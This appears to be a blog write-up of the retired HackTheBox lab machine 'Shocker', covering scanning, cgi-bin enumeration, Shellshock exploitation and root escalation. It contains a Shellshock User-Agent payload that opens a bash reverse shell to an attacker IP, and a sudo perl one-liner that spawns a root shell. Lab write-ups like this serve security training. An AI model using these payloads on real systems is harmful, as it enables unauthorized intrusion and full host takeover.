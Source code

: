 ```yaml
---
layout: post
title: HacktheBox - Shocker
toc: true
subtitle: Retired Machine
comments: false
---
```


## Shocker ![propic](/pictures/shocker/shocker.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/shocker 10.10.10.56
```
![nmap](/pictures/shocker/nmap.png)

I notice that port 80 & 2222 are open. First, I navigate to the webpage and only see a png file. Knowing that the machine is called shocker, I assume this is vulnerable to shellshock.

To confirm, I run the shellshock nmap script to validate its vulnerability to the attack.

The nmap script's results clearly indicate that the machine is vulnerable as expected. For more enumeration, I will use dirbuster to look for any hidden directories. 

Unfortunately there are no initial directories found, so I leverage dirbuster with the -f flag to find directories with the ending forward slash. The directory cgi-bin was found during the second directory search. 

With this information, I google common script extensions in cgi-bin and find .sh, .cgi, & .pl. Using these script extensions, I run the following command in feroxbuster against the cgi-bin directory:

```
feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl
```
![ferox](/pictures/shocker/ferox.png)

The user.sh file was found, and shows a basic uptime test script. However, by leveraging burp, I can now use the shellshock vulnerability against the GET cgi-bin/user.sh file to run bash commands. This means that I can create a bash reverse shell with this string inside the user agent:

```
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<attacker_ip>/4443 0>&1
```

![burp](/pictures/shocker/burp.png)

With the listener setup on port 4443 on my attacker host, I receive a bash shell under Shelly. This allows me to find the user.txt file under /home/shelly.
![user](/pictures/shocker/user.png)

The first thing I check to escalate privileges is the current sudo permissions. Here, I find that shelly can run sudo privileges on the perl binary in /bin/perl. 

Obtaining root from here is easy as I google GTFOBins and look for sudo perl escalations.

```
sudo perl -e 'exec "/bin/sh";'
```
Finally, I have obtained root and found the root flag under /root/root.txt.
![root](/pictures/shocker/root.png)
